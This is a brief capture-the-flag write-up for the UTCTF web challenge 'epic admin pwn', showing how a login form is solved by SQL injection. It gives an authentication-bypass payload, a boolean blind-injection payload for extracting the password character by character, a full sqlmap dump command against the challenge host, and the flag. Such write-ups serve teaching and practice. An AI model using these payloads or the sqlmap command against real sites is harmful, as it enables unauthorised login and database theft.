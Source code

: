 # [Web] epic admin pwn - (50 pts)

## Description

this challenge is epic i promise

the flag is the password

[link](http://web2.utctf.live:5006/)

_by matt_

## Solution

Since we can sign in using `' or 1=1--` as username, we know that the website is vulnerable to SQL injection.

By using `admin' and password like 'utctf{%'--`, we can sign in successfully, too.

Then, we can get the flag cahracter by character using the payload above.

> By using sqlmap, we can get the flag without writing the script ourselves.

> $ sqlmap -u "http://web2.utctf.live:5006/" --data "username=test&pass=test" -p "username,pass" --technique B --dump

Flag `utflag{dual1pa1sp3rf3ct}`

